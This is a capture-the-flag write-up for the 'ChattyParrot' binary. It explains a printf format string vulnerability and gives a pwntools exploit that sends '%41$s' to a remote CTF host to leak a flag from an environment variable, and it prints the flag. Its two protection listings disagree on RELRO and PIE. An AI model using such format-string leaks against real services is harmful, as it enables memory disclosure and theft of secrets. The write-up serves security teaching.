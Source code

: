 # ChattyParrot - Writeup

---

## Challenge Description

![Alt text](img/1.png)

---

## Exploit Demo

This demo shows the exploitation flow:

![Alt text](gif/ChattyParrot.gif)

---

## Challenge Summary

The `ChattyParrot` binary contains a **format string vulnerability** in the `vuln()` function, where user input is passed to `printf()` without a format specifier. By using `%p` and `%s`, an attacker can **leak memory** and extract the flag stored in the `FLAG_VAL` environment variable. The goal is to craft input that reveals the flag by exploiting this vulnerability.

---

## Binary Information

```bash
$ file ChattyParrot
```

![Alt text](img/2.png)

```bash
$ checksec main
```

![Alt text](img/3.png)

---

## Static Analysis (IDA pro)

### Vulnerable Code

```c
printf("%s", "Input your phrase:");
printf(buf);  // Format string vulnerability
```

![Alt text](img/4.png)

```c
read(0, buf, 0x100uLL);  // User input is read into buffer
```

![Alt text](img/5.png)

- The `main()` function retrieves the `FLAG_VAL` environment variable and copies it into `SECRET`.
- It then prompts the user for input and calls `vuln()`.
- In `vuln()`, 256 bytes are read into `buf` using `read(0, buf, 0x100)`.
- The input is then passed directly to `printf(buf)`, causing a format string vulnerability.

---

## Exploit Strategy

### Step 1: Leak Memory Address

We exploit the format string vulnerability by sending a payload containing `%p` and `%s` to leak memory addresses. This allows us to:

- Leak the address of the `FLAG_VAL` environment variable.

### Step 2: Extract the Flag

Using the leaked memory addresses, we can:

- Access the **value of `FLAG_VAL`** by reading the content at the leaked address, which contains the flag.

---

## Exploit Code

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template --host ctf.mf.grsu.by --port 9077
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ChattyParrot')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'ctf.mf.grsu.by'
port = int(args.PORT or 9077)

env_vars = {'FLAG_VAL': 'grodno{dummy_flag}'}

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, env = env_vars ,*a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# Stripped:   No

io = start()

# shellcode = asm(shellcraft.sh())
# payload = fit({
#     32: 0xdeadbeef,
#     'iaaa': [1, 2, 'Hello', 3]
# }, length=128)
# io.send(payload)
# flag = io.recv(...)
# log.success(flag)

payload = b'%41$s'
io.sendline(payload)
io.recvuntil(b'Input your phrase:')
flag = io.recvline().strip(b'"\n')
log.success(f"FLAG : {flag.decode()}")





```

---

## Exploit Output

![Alt text](img/6.png)

---

## Vulnerability Summary

| Protection   | Status      |
| ------------ | ----------- |
| RELRO        | Full RELRO  |
| Stack Canary | Not Present |
| NX           | Enabled     |
| PIE          | Enabled     |
| Stripped     | No          |

- **Format string vulnerability** allows leaking memory using `%p` and `%s`.
- The leaked memory provides the **address of the `FLAG_VAL` environment variable**.
- By reading the leaked address, we can **extract the flag**.

---

## Flag

```
grodno{J35KiI_P4RR07_Drug_M47u3}
```
